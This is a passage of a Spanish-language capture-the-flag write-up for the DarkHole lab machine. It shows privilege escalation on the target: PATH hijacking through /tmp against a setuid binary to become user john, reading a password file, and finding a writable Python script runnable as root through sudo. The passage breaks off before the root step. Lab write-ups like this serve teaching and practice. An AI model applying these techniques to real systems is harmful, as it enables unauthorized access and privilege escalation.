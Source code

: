 ```
bash-5.0$ export PATH=/tmp:$PATH 
bash-5.0$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin
```

Bien, con todo esto listo vamos a probarlo:
```
bash-5.0$ ./toto
bash-5.0$ whoami
john
```

Vemos que ahora somos john, sin embargo, deberiamos ser root. Esto paso debido a que si vemos bien los strings del archivo toto se le hace un setuid y setgid:
```
setuid
system
__cxa_finalize
setgid
```

En esta parte debe estar dandole la propiedad a john. Sin embargo, nos sirve pues ahora tenemos más privilegios.

Vamos a revisar el archivo password que no podíamos antes:
```
bash-5.0$ cat password
root123
```

Vemos la contraseña, debe ser de nuestro usuario. Vamos a ver nuestro privilegios:
```
bash-5.0$ sudo -l
[sudo] password for john: 
Matching Defaults entries for john on darkhole:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on darkhole:
    (root) /usr/bin/python3 /home/john/file.py
```

Vemos que podemos ejectuar como root el archivo file.py, vamos a verlo.
```
bash-5.0$ ls -la
total 72
drwxrwxrwx 5 john john      4096 Feb 20 17:02 .
drwxr-xr-x 4 root root      4096 Jul 16  2021 ..
-rw------- 1 john john      2485 Feb 20 20:34 .bash_history
-rw-r--r-- 1 john john       220 Jul 16  2021 .bash_logout
-rw-r--r-- 1 john john      3771 Jul 16  2021 .bashrc
drwx------ 2 john john      4096 Jul 17  2021 .cache
-rwxrwx--- 1 john john        43 Feb 20 17:02 file.py
```

Vemos que el archivo file.py nos pertenece a nosotros, por lo tanto, ganar acceso como root será muy sencillo.
